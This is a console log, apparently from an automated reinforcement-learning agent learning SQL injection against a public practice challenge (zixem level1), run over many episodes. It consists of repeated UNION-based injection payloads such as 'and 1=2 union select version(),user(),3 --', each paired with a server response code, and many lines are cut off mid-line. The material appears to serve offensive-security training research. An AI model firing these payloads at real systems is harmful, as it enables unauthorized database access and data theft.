Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2396/1000000 [13:51:44<9270:18:38, 33.45s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.p

  0%|          | 2397/1000000 [13:53:14<13978:04:29, 50.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2398/1000000 [13:53:15<9846:14:46, 35.53s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2399/1000000 [13:53:15<6922:41:59, 24.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2400/1000000 [13:53:17<4990:58:50, 18.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2401/1000000 [13:53:18<3555:16:25, 12.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org

  0%|          | 2402/1000000 [13:53:46<4815:17:48, 17.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax e

  0%|          | 2403/1000000 [13:54:46<8418:37:11, 30.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union

  0%|          | 2404/1000000 [13:54:57<6766:35:01, 24.42s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2405/1000000 [13:54:58<4866:17:07, 17.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2406/1000000 [13:54:59<3465:40:32, 12.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2407/1000000 [13:55:01<2579:58:08,  9.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2408/1000000 [13:55:02<1871:35:58,  6.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2409/1000000 [13:55:02<1372:24:47,  4.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2410/1000000 [13:55:03<1023:56:48,  3.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2411/1000000 [13:55:04<779:05:01,  2.81s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2412/1000000 [13:55:05<609:59:38,  2.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2413/1000000 [13:55:06<489:48:13,  1.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2414/1000000 [13:55:06<412:27:20,  1.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2415/1000000 [13:55:07<352:44:35,  1.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?

  0%|          | 2416/1000000 [13:55:35<2545:55:18,  9.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2417/1000000 [13:55:36<1851:26:38,  6.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2418/1000000 [13:55:36<1361:47:59,  4.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union s

  0%|          | 2419/1000000 [13:59:34<20691:06:57, 74.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2420/1000000 [13:59:35<14551:26:01, 52.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server r

  0%|          | 2421/1000000 [13:59:44<10928:18:00, 39.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2422/1000000 [13:59:44<7715:06:52, 27.84s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2423/1000000 [13:59:45<5461:07:14, 19.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2424/1000000 [13:59:46<3882:49:58, 14.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 ' 

  0%|          | 2425/1000000 [14:00:30<6388:17:14, 23.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error

  0%|          | 2426/1000000 [14:00:55<6513:59:39, 23.51s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is

  0%|          | 2427/1000000 [14:01:20<6716:03:31, 24.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4

  0%|          | 2428/1000000 [14:02:15<9258:33:07, 33.41s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2429/1000000 [14:02:16<6550:57:28, 23.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2430/1000000 [14:02:17<4651:19:22, 16.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2431/1000000 [14:02:18<3328:16:18, 12.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,

  0%|          | 2432/1000000 [14:02:50<5042:39:53, 18.20s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2433/1000000 [14:02:51<3597:37:58, 12.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2434/1000000 [14:02:55<2860:40:24, 10.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2435/1000000 [14:02:56<2066:22:02,  7.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2436/1000000 [14:02:57<1518:43:20,  5.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2437/1000000 [14:02:58<1126:47:01,  4.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2438/1000000 [14:02:59<853:55:34,  3.08s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2439/1000000 [14:02:59<666:52:08,  2.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2440/1000000 [14:03:03<731:39:19,  2.64s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2441/1000000 [14:03:03<570:42:32,  2.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Serv

  0%|          | 2442/1000000 [14:03:20<1779:01:00,  6.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2443/1000000 [14:03:21<1367:40:29,  4.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 a

  0%|          | 2444/1000000 [14:03:27<1394:16:08,  5.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2445/1000000 [14:03:27<1038:21:29,  3.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2446/1000000 [14:03:28<788:26:58,  2.85s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2447/1000000 [14:03:29<614:45:10,  2.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2448/1000000 [14:03:30<500:12:27,  1.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2449/1000000 [14:03:31<480:16:48,  1.73s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 

  0%|          | 2450/1000000 [14:03:44<1355:28:42,  4.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 

  0%|          | 2451/1000000 [14:04:17<3734:29:34, 13.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2452/1000000 [14:04:18<2677:13:40,  9.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2453/1000000 [14:04:20<2072:24:00,  7.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2454/1000000 [14:04:21<1522:11:02,  5.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2455/1000000 [14:04:23<1192:31:47,  4.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2456/1000000 [14:04:23<898:34:25,  3.24s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 

  0%|          | 2457/1000000 [14:04:32<1345:47:19,  4.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


